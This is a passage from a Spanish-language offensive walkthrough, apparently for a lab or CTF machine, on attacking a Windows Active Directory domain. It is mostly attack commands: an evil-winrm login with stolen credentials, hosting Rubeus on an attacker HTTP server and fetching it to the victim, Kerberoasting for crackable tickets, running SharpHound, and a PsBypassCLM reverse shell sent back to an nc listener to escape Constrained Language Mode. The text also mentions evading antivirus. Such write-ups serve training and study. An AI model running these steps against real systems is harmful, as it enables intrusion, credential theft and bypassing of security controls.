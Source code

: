 ```shell
$ evil-winrm -S -c certnew.cer -K priv.key -i 10.10.10.50 -u 'amanda' -p 'miSuperPassword123'
...
```

5. El objetivo ahora es subir binarios (archivos ejecutables) al sistema.  Muy importante saber la arquitectura del sistema (32 ó 64 bits) para ejecutar el binario apropiado. Para ello levantaremos un servidor http en nuestro equipo y haremos la demanda de archivos desde el equipo víctima. Intentando evadir las protecciones antivirus y demás restricciones que nos pueden impedir que lo llevemos acabo. 

```shell
$ sudo python3 -m http.server 8080
```

7. En este caso descargaremos una versión de *Rubeus* ya compilada https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe y lo llevaremos a nuestra máquina víctima.

```shell
> iwr -uri http://10.10.14.200:8080/Rubeus.exe -Outfile .\Rubeus.exe
....
> .\Rubeus.exe kerberoast /creduser:contoso.local\amanda /credpassword:miSuperPassword123
```

- *Rubeus* lo que nos va a permitir es generar el TGS (Ticket Granting Server) Para su posterior crackeo. Más info https://www.techopedia.com/definition/27186/ticket-granting-server-tgs

8. También vamos a ejecutar *SharpHound* (https://github.com/BloodHoundAD/SharpHound) que nos permitirá volver a volcar toda la información del dominio para poder analizarla de nuevo. Para ello copiaremos el binario dentro de la máquina víctima mediante el procedimiento descrito en el punto número 7.

```shell
> Import-module .\SharpHound.ps1 
....
Importing *.ps1 files as modules is not allowed in ConstrainedLanguage Mode.
```

- Veremos que al intentar importar el script no nos deja porque el usuario tiene un política aplicada que no permite la ejecución de scripts. ¿Cómo burlamos esta restricción? Con *PsByPassCLM*.

9. En nuestro equipo nos pondremos en espera para recibir una consola:

```shell
$ rlwrap nc -nlvp 443
```
10. Descargamos el binario y lo pasamos a la máquina víctima y lo ejecutamos. Más info de *PsByPassCLM* [aquí](https://github.com/padovah4ck/PSByPassCLM)

11. [Descarga binario compilado](https://github.com/padovah4ck/PSByPassCLM/blob/master/PSBypassCLM/PSBypassCLM/bin/x64/Debug/PsBypassCLM.exe)

```shell
> C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.14.4 /rport=443 /U C:\Windows\Temp\CLM\PsBypassCLM.exe
```

- De esta manera nos enviará una consola "FullLanguage" que significa que ya no tendremos restricciones en ejecución de escripts.

---
